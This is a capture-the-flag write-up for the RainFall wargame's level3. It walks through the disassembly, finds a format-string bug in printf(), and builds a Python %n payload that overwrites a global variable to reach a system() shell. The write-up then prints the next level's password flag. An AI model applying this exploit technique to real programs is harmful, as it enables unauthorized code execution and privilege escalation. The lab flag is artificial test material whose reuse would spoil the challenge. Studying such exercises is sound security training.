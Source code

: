# level3

Let's launch the program:

```bash
level3@RainFall:~$ ./level3
hello world
hello world
```

The program repeats whatever is sent to stdin, but this time there is a catch! The program does not use `gets()` to get the data, but rather `fgets()` which is way safer, so no more buffer overflow...

```
objdump -M intel -D level3/level3 | egrep "<main>:" -A 6
0804851a <main>:
 804851a:       55                      push   ebp
 804851b:       89 e5                   mov    ebp,esp
 804851d:       83 e4 f0                and    esp,0xfffffff0
 8048520:       e8 7f ff ff ff          call   80484a4 <v>
 8048525:       c9                      leave  
 8048526:       c3                      ret
```

We can see that the main only calls the `v()` function.

```bash
080484a4 <v>:
 80484a4:       55                      push   ebp
 80484a5:       89 e5                   mov    ebp,esp
 80484a7:       81 ec 18 02 00 00       sub    esp,0x218
 80484ad:       a1 60 98 04 08          mov    eax,ds:0x8049860
 80484b2:       89 44 24 08             mov    DWORD PTR [esp+0x8],eax
 80484b6:       c7 44 24 04 00 02 00    mov    DWORD PTR [esp+0x4],0x200
 80484bd:       00 
 80484be:       8d 85 f8 fd ff ff       lea    eax,[ebp-0x208]
 80484c4:       89 04 24                mov    DWORD PTR [esp],eax
 80484c7:       e8 d4 fe ff ff          call   80483a0 <fgets@plt>
 80484cc:       8d 85 f8 fd ff ff       lea    eax,[ebp-0x208]
 80484d2:       89 04 24                mov    DWORD PTR [esp],eax
 80484d5:       e8 b6 fe ff ff          call   8048390 <printf@plt>
 80484da:       a1 8c 98 04 08          mov    eax,ds:0x804988c
 80484df:       83 f8 40                cmp    eax,0x40
 80484e2:       75 34                   jne    8048518 <v+0x74>
 80484e4:       a1 80 98 04 08          mov    eax,ds:0x8049880
 80484e9:       89 c2                   mov    edx,eax
 80484eb:       b8 00 86 04 08          mov    eax,0x8048600
 80484f0:       89 54 24 0c             mov    DWORD PTR [esp+0xc],edx
 80484f4:       c7 44 24 08 0c 00 00    mov    DWORD PTR [esp+0x8],0xc
 80484fb:       00 
 80484fc:       c7 44 24 04 01 00 00    mov    DWORD PTR [esp+0x4],0x1
 8048503:       00 
 8048504:       89 04 24                mov    DWORD PTR [esp],eax
 8048507:       e8 a4 fe ff ff          call   80483b0 <fwrite@plt>
 804850c:       c7 04 24 0d 86 04 08    mov    DWORD PTR [esp],0x804860d
 8048513:       e8 a8 fe ff ff          call   80483c0 <system@plt>
 8048518:       c9                      leave
 8048519:       c3                      ret
```

Howevery what happens next is the problem, our string is printed by `printf()` with its first argument. Which means that, in theory, we should be able to print formatting symbols.

```bash
level3@RainFall:~$ ./level3
%x
200
```

Bingo! We can see here that formatting symbols work, now we can use `%n` to write data.

`%n` writes the number of bytes already written by `printf()`, so if provide `12345%n` as a buffer, `%n` will write `5` to the address that happened to be on the stack there.

```bash
./level3
%n
Segmentation fault (core dumped)
```

Well it looks like it somehow worked. Now we need to understand where and what to write.

From address `80484da` to `80484e2`, we see that the function `v()` loads the value in `0x804988c` to check if its equal to `0x40` before letting access to a `system()` call.

So we just need to write `64` to `0x804988c`

```python
print("\x8c\x98\x04\x08" + "o" * 35 + "%p" * 3 + "%n")
```

```bash
level3@RainFall:~$ python level3.py > data
level3@RainFall:~$ cat data - | ./level3
�ooooooooooooooooooooooooooooooooooo0x2000xb7fd1ac00xb7ff37d0
Wait what?!
whoami
level4
```

Why does it work?

The size of the address (`"\x8c\x98\x04\x08"`) is 4.

The size of the padding (`"o" * 35`) is 35.

Then we pop 3 values of the stack. Why? with trial and error we can see that it is at the 4th value that the format string writes itself, for us `0x804988c`. `"%p" * 3` Writes `0x2000xb7fd1ac00xb7ff37d0`, which is 25 characters.

So to summurize, we wrote 4 + 35 + 25 characters, which is 64. Now we can write our `%n` to write `64` into the memory.

```bash
cat data - | ./level3
�ooooooooooooooooooooooooooooooooooo0x2000xb7fd1ac00xb7ff37d0
Wait what?!
cd ../level4 
cat .pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```

## .pass: b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa